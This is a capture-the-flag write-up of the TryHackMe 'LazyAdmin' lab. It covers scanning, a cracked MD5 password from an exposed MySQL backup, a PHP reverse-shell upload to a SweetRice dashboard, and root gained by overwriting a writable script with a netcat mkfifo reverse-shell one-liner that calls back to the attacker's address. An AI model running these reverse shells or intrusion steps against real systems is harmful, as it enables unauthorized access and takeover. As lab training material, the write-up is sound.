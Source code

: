 # LazyAdmin

This was my first TryHackMe box. Lets see what I can discover!

## Port Enumeration

Started my hunt with a simple nmap scan:

```bash
➜  ~ export IP=10.10.151.48
➜  ~ sudo nmap -sC -sV -Pn -n $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 12:06 MDT
Nmap scan report for 10.10.151.48
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

Port 22 was open using OpenSSH 7.2p2 and port 80 was hosting Apache 2.4.18

## Directory Enumeration

Utilized gobuster to enumerate directories on the IP:

```bash
➜  ~ gobuster dir -t 150 -u http://$IP -w Desktop/wordlist2.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.151.48
[+] Threads:        150
[+] Wordlist:       Desktop/wordlist2.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/10 12:49:13 Starting gobuster
===============================================================
/content (Status: 301)
```

Browsing to 10.10.151.48/content revealed a website that was built using SweetRice. 
gobuster on ```/content```:
```bash
➜  ~ gobuster dir -t 100 -u http://$IP/content -w Desktop/wordlist2.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.151.48/content
[+] Threads:        100
[+] Wordlist:       Desktop/wordlist2.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/10 12:47:14 Starting gobuster
===============================================================
/js (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

I manually went through each directory in the browser, and ```/inc``` had a couple interesting files including a ```mysql_backup/``` folder. I grabbed the file inside and examined it. Found an interesting entry: ```"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb```. Looks like a hash. The only vulnerable "modern" hashing algorithms I know of are SHA1 and MD5, the latter being significantly easier to reverse, hell, I created a program in my Python Pentesting Repo to do it. Lo and Behold: ```Password123```. But where do we put this password? A potential hint within that webpage was "If you are the webmaster, please to go Dashboard > General > Website setting". Doing a quick google search for "sweetrice dashboard" I found a google image showing a location in ```/content/as```, one of the directories gobuster found!  Sure enough, there's a login page at ```/content/as```. Using user ```manager``` and password ```Password123``` I was able to get into the the dashboard! Huzzah!

Lets see what exploits SweetRice has:

## Exploitation

```bash
➜  ~ searchsploit sweetrice
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion       | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities    | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download     | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload       | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure           | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery  | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery  | php/webapps/40700.html
SweetRice < 0.6.4 - FCKeditor Arbitrary Fil   | php/webapps/14184.txt
```

What caught my eye was ```SweetRice 1.5.1 - Arbitrary File Upload       | php/webapps/40716.py```. Reading through it, we can use a PHP reverse shell to gain access!

Browsing through the dasboard I found in the ad section that you can upload ~~ad~~ arbitruary code...lets upload a PHP reverse shell and get going!

![image](https://user-images.githubusercontent.com/38113471/87210031-564c0f00-c2d1-11ea-9a0e-b353bb997e65.png)

I used pentestmonkey's PHP reverse shell I snagged from Github, pasted it into the section that takes in code, named it ```reverse_shell``` pointed it to my internal private IP and listened on the default 1234 port:

```bash
curl 10.10.49.154/content/inc/ads/reverse_shell.php
```

and in another terminal tab, I set up a netcat listener: 
```bash
➜  ~ nc -l -p 1234          
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:11:12 up 6 min,  0 users,  load average: 0.47, 1.40, 0.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

Now to complete the first challenge of the VM, find the user flag:

```bash
$ cd /home
$ ls
itguy
$ ls itguy
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
cat user.txt
THM{REDACTED}
```

## Post Exploitation/Elevating Priviledges

BOOM! After figuring out ```whoiam```, I ran ```sudo -l``` to see what commands I could run as ```sudo```

```bash
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

I see that this perl program simply ran a bash script located at ```etc/copy.sh```. Off we go there!

```bash
$ cd /etc
$ ls -lah | grep copy.sh
-rw-r--rwx   1 root root     81 Nov 29  2019 copy.sh
$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Well well well, would you look at that, there's already a one liner reverse shell that puts the 190 line long code I used above to shame. We can see we have permissions to read and write to the file, so lets overwrite that with our sexy info:


```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.27.38 5554 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

setup our listener in another terminal tab:

```bash
➜  ~ nc -l -p 5554 
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
# cat root.txt
THM{REDACTED}
```

And there she is folks! My first ever malicious root!!! Huzzah! The only major issue I ran into was that I was configuring my reverse shell incorrectly with my public IP, not my VPN's private IP. Without a friends help, I would've spun around in circles.